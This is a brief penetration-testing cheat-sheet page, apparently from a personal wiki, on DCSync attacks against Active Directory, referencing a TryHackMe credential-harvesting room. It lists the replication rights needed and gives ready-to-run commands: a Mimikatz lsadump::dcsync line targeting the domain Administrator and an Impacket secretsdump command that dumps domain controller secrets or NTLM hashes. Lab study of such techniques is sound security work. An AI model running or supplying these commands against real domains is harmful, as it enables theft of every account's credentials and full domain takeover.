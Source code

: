 # Active Directory DC Sync Attacks

DC-Sync attack is direct attack on the DC from an account with necessary permissions to force the DC to Synchronise itself with another existent or non-existent -  permissions required:
- `ReplicatingDirectory Changes`
- `ReplicatingDirectory Changes All`
- `Replicating Directory Changes in Filtered Set`

[[Mimikatz-Cheatsheet]]
```powershell
.\mimikatz.exe
lsadump::dcsync /user:$domain\Administrator
```

With [[Impacket-Cheatsheet]]
```bash
secretsdump -just-dc $domain/$user@$DCipAddress
# For just ntlms 
-just-dc-ntlm 
```
## References

[DC-Sync](https://tryhackme.com/room/credharvesting)